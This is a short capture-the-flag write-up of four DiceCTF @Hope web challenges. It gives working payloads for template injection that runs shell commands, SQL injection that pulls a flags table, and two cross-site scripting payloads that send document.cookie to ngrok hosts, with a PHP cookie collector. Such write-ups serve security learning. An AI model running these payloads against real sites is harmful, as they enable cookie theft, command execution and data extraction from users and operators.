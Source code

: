 # DiceCTF @Hope writeup

Mostly solved the web challenges with Task_Hashed

---------------------------------------------------------------------------------------------------

## Reverser

the website is a text reverser and from the source code we can tell its an SSTI so we just have to put a regular SSTI payload but just reversed

regular payload: 
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{config.__class__.__init__.__globals__['os'].popen('cat flag-ccba9605-afeb-49a6-8aac-d56bac20705b.txt').read()}}
```
supplied reversed payload:

```
}}  )(daer.)'sl'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc {{
    
}})(daer.)'txt.b50702cab65d-caa8-6a94-befa-5069abcc-galf tac'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc{{
```


---------------------------------------------------------------------------------------------------

## Pastebin 

the important part of this challenge is :

```python 
    if (paste.search(/<.*>/) !== -1) {
        return res.redirect('/flash?message=Illegal characters in paste!');
        }
```

My solution : 

```<img src=x onerror=javascript:document.location='http://37b0-41-225-85-6.ngrok.io/ok.php?c='+document.cookie;```

with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
---------------------------------------------------------------------------------------------------

## oeps

this challenge requires to put a palindrome string to add them to the pending table

notice there's two ways we can control user input. either search for approved sentences or pass our own but it has to be a palindrome

since the search is blocking special chars we can try with the pending sentences input

so we can try some sql injections

this is what the query looked like 

```python 
connection.execute('''
        insert into pending (user, sentence) values ('%s', '%s');
    ''' % (
        token,
        submission
))
```


payload: ```')--```
payload supplied : ```')---)'```

and we can see we get a blank input meaning our payload worked! and we know the flag is in the flags table so we can use the ```'%'||(query)||'%'``` to get an element from another table

payload : ```%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'% ``` 

the final query looks like this 

```insert into pending (user, sentence) values ('1234', '%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%');```

```flag : hope{ecid_gnivlovni_semordnilap_fo_kniht_ton_dluoc}```

------------------------------------------------------------------------------------------------------------------------------------

## mk

Abusing MathJax renderer for an xss by supplying the source to the mathjax file

payload :

```<script src="https://mk.mc.ax/MathJax/MathJax.js">document.location='http://02f6-41-225-148-43.ngrok.io/ok.php?c='+document.cookie;</script>```


with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
